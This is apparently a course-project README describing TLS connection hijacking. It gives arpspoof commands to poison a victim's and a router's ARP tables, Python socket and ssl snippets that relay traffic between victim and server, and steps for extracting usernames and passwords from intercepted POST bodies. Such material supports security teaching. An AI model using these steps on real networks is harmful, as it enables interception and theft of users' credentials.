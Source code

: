 ## Project 1 - TLS Connection Hijacking

### GOAL
- Make use of arpspoofing to deceive router and victim
- Establish TLS connections between both attacker and victim, and attacker and web server
- Parsing HTML packets to ensure that the victim's browser displays the webpage properly.
- __Steal the password__ while victim is entering the login page

### STEP1 - ARP Spoofing
Make the __victim / router__ assume that the attacker is where the packet should go at next hop (originally the router / victim) by deceiving the arp packets.
```bash
sudo arpspoof -i <INTERFACE> -t <GATEWAY_IP> <CLIENT_IP>
sudo arpspoof -i <INTERFACE> -t <CLIENT_IP> <GATEWAY_IP>
```

### STEP2 - Hijacking a TLS Connection
Create a socket to make connection with victim, based on the previous ARP spoofing, the victim sends packets to the attacker.
```python
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((HOST, PORT))
server.listen(5)

client_socket, addr = server.accept()
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=certFile, keyfile=keyFile)
victim_connection = context.wrap_socket(client_socket, server_side=True)
```
Create connections between attacker and server, the server sends website information to router, and based on the previous ARP spoofing, the router will sends packets back to attacker, too.
```python
context = ssl.create_default_context()
server_connection = context.wrap_socket(socket.socket(socket.AF_INET), server_hostname=host)

server_connection.connect((host, port))
server_connection.sendall(request)
```

### STEP3 - Handle Large Packets
Normally, the size of a website is huge that one must handle packet several times. By parsing HTML header, coping with large packets will be much easier.
- HTML header format
  - "\r\n\r\n" at the end of header
  - every header is splited by "\r\n"
  - find __Content-Length__ and __Trandfer-Encoding__
- Content-Length
  - Recording the total size of the entire web page.
- Tansfer-Encoding
  - Sometimes, "Content-Length" won't be used instead of "Transfer-Encoding" since there might be a dynamic generated pages
  - If the tag is "Chunked", each chunk indicates its own length, and a final chunk with a length of 0 signals the end.
```text
4\r\n
Wiki\r\n
5\r\n
pedia\r\n
0\r\n
\r\n
```

### STEP4 - STEAL Password
- Find header named "Type", if the type of this request is post, check HTML body and the body format will be,
```text
username=<username>&password=<password>
```
